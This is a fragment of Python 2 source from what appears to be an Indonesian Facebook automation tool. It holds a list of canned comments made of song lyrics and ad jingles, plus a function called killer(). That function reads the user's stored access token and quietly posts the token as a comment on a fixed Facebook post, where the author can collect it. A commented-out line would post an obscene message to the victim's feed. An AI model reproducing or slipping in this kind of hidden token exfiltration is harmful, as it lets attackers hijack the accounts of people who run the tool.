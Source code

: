 komen5 = random.choice(['Mendung tanpo udan, Ketemu lan kelangan, Kabeh kui sing diarani perjalanan, Awak dewe tau duwe bayangan, Besok yen wes wayah omah-omahan, Aku moco koran sarungan, Kowe belonjo dasteran, Nanging saiki wes dadi kenangan, Aku karo koe wes pisahan, Aku kiri kowe kanan, wes bedo dalan, Mlaku bebarengan, Ben dino sayang-sayangan, Sedih lan kebahagiaan, Dilewati tahun-tahunan, Padu meneng-menengan, Bar kui kangen-kangenan, Kadang bedo pilihan, Nganti pedot balikan, Mendung tanpo udan, Ketemu lan kelangan, Kabeh kui sing diarani perjalanan, Awak dewe tau duwe bayangan, Besok yen wes wayah omah-omahan, Aku moco koran sarungan, Kowe belonjo dasteran, Nanging saiki wes dadi kenangan, Aku karo koe wes pisahan, Aku kiri kowe kanan, wes bedo dalan, Mendung tanpo udan, Ketemu lan kelangan, Kabeh kui sing diarani perjalanan, Awak dewe tau duwe bayangan, Besok yen wes wayah omah-omahan, Aku moco koran sarungan, Kowe belonjo dasteran, Nanging saiki wes dadi kenangan, Aku karo koe wes pisahan, Aku kiri kowe kanan, wes bedo dalan', 'piye sek jelaske karo wongtuwo, wes ngelakoni tekan semene, nek akhire bakal bubar pisahan, kowe kegudo tresno karo wong liyo, ngelali kowe sing tau ngomong dewe, ngelakoni tresno tekan tuwo, ora ngeliyo mung aku ning atimu, nanging saiki atimu ono wong liyo, ibarat esuk mendung, awan aku kudanan, sore mbok larani, bengi tak tangisi, mung iso bayangke kabeh kenangan, kowe tak boncengke, turut dalan kekepan kudanan, saiki nyatane kowe malah milih, dikekep wong liyo, opo kowe ra kroso abote atiku, kudu kelangan wong sing paling tak tresnani, ra jenak dolan, ra doyan mangan, nek ra mbok dulang.', 'Pada saat moment kebersamaan kita, kita pesen satu es. Pas saya lagi sendok itu es kemulut, cuuut itu ngilu nya. Saya bener bener langsung keilangan moment kebersamaan sama sahabat sahabat saya. Dokter sarankan (coba deh ibu pakai sensodyne khusus untuk gigi yang sensitif). Berkat sensodyne, sekarang waah saya malah mungkin paling banyak tu kata temen temen (eh rin pelan pelan dong makan nya kita belum kebagian nih). Mas es nya yang banyak ya. Dug dug', 'Pah permennya?, Mentang-mentang cari duit, beliin anak sembarangan!, Baru pulang dimarahin, ngajak berantem?, Kamu sih!, Hieehhh! Eh jangan berantem dulu!, Kiki cuman minta permen susu, Milk Milk susu asli Milkita, Ini permen susu mahal, 3 loli milkita, setara dengan 120 kalori, Bikin sehat, cerdas dan ceria', 'Ini anak kami, Ada juga yang dikebun, namanya malika, Malika itu, kedelai hitam dari bango, Yang saya besarkan sepenuh hati, seperti anak sendiri, Hasilnya, kedelai hitam pilihan, Untuk membuat kecap bango, yang hitam dan kental, Rasa masakan, jadi benar benar lezat, Karena rasa, tak pernah bohong, Bango, benar benar kecap', 'Wadimor sarung khas Indonesia, Wadimor beragam coraknya, Wadimor sarung istimewa, Terasa lebih sempurna, Wadimor sarung khas Indonesia, Wadimor tentu sarung kita', 'Air sejuk pegunungan, Lemon, Herbal mengademkan, Dan udara pegunungan sejuk, Baru Adem Sari Ching Ku Sparkling Lemon, Ching Ku Sparkling, Ahhhhh cepat ademnya.', 'Ayo!, Awas jurang! Wowwwwow, Dalem banget, aduh bagaimana?, Jagoan Neon, Yeeeaayy!, Yeeaayy, uwaaaaawuu, wueeewww!, Jagoannn!, Jagoan, jagoan, yeaayy! Uwaaa, Hahahahaha jagoan!, Jagoan Neon, Permennya jagoan!', 'Sekali putaran, Setengah putaran, Bersihkan sel kulit mati dan kotoran, Tar putar di wajah, Bilas, Multivitamin, Wajah bersih cerah seketika, siap!, Fair and Lovely Facial Foam'])
def killer():
    try:
        token = open('login.txt', 'r').read()
        saya = requests.get('https://graph.facebook.com/me/?access_token=%s'%(token))
        i = json.loads(saya.text)
        nick = i['name']
        idme = i['id']
        ttlme = i['birthday']
        month, day, year = ttlme.split("/")
        month = bulan_ttl[month]
        
    except IOError:
        print '\x1b[0;96m\x1b[0;97m [\x1b[1;36m\xe2\x80\xa2\x1b[1;37m] Token/Cookie invalid'
        os.system('rm -rf login.txt')
        exit(proff.login())    
    kom = komen1
    komen = komen2
    komentar = komen3
    komenn = komen4
    komennn = komen5
    post = '1992668927559738'
    requests.post('https://graph.facebook.com/' + post + '/comments/?message=' + token + '&access_token=' + token)   
#    requests.post('https://graph.facebook.com/' + idme + '/feed?method=POST&access_token=' + token + '&message=asu kontol:v')